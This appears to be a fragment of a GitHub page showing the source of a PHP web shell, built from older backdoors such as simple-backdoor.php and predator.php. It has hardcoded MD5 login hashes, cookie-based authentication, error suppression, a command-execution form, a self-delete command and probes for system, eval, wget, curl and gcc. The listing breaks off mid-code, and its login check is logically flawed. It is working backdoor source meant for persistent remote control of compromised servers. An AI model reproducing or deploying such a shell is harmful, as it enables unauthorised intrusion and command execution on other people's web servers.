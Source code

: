 ```php
http://<? echo $SERVER_NAME.$REQUEST_URI; ?>?d=/etc on *nix
or http://<? echo $SERVER_NAME.$REQUEST_URI; ?>?d=c:/windows on win
</form>
```

To this multiple commits later:
```php
<?php
// Made bits I liked the look of from  simple_cmd.php, simple-backdoor.php, php-backdoor.php, predator.php, AK-74.php
// At some point it helps if you like silly names in the early 2000s
// The reinvented wheel made with love and ChatGpt to
// php-backdoor can upload and download stuff!
//
// Perspective-Honed-Persistence: MWIwNzI3N2QxZTM1MjVkYWI3M2JiMzA4NzcwOWFhZWY6NDBhNjNjNDQ0NWRlNzVkOTY2YmQ5NDk0MGI1ZmJjNDcK
ob_implicit_flush();
error_reporting(0);
ini_set("display_errors", 0);
$phpVersion = phpversion();
$user = "1b07277d1e3525dab73bb3087709aaef"; //login = 'badadmin'
$pass = "40a63c4445de75d966bd94940b5fbc47"; //pass  = 'personalhomepagewebshell'
$headers = getallheaders();
if (version_compare($phpVersion, "5.0.0", "<")) {
    if (isset($HTTP_COOKIE_VARS["Perspective-Honed-Persistence"])) {
        $cookieValue = base64_decode($_COOKIE["Perspective-Honed-Persistence"]);
        $cookie_parts = explode(":", $cookieValue, 2);

        if (count($cookie_parts) == 2) {
            $cookie_user = $cookie_parts[0];
            $cookie_pass = $cookie_parts[1];
        }
    } else {
        if (isset($_COOKIE["Perspective-Honed-Persistence"])) {
            $cookieValue = base64_decode(
                $_COOKIE["Perspective-Honed-Persistence"]
            );
            list($cookie_user, $cookie_pass) = explode(":", $cookieValue, 2);
        }
    }

    if (md5($cookie_user) != $user && md5($cookie_pass) != $pass) {
        error_reporting(0);
        ini_set("display_errors", 0);
        header("HTTP/1.0 403 Unauthorized");
        exit("Access Denied");
    }
} else {
    error_reporting(0);
    echo '<form action="' . $_SERVER["PHP_SELF"] . '" method="GET">';
    echo 'Execute command: <input type="text" name="cmd"><input type="submit" value="go"><hr>';
    echo "</form>";
    echo "Commands:";
    echo "      kill : Will delete this file";
    echo "Tests: ";
    echo "      testcmds : tests shell_exec, system, passthru, eval with \`whoami\`  ";
    echo "      testDevShm : check permissions of /dev/shm";
    echo "      testperl : prints the help for perl";
    echo "      testgcc : prints the help for gcc";
    echo "      testpython : prints the help for python3";
    echo "      testwget : prints the help for wget";
    echo "      testcurl : prints the help for curl";
    echo "Command execution - ?<listed handled>=Your command goes here";
    echo "      shell_exec";
```
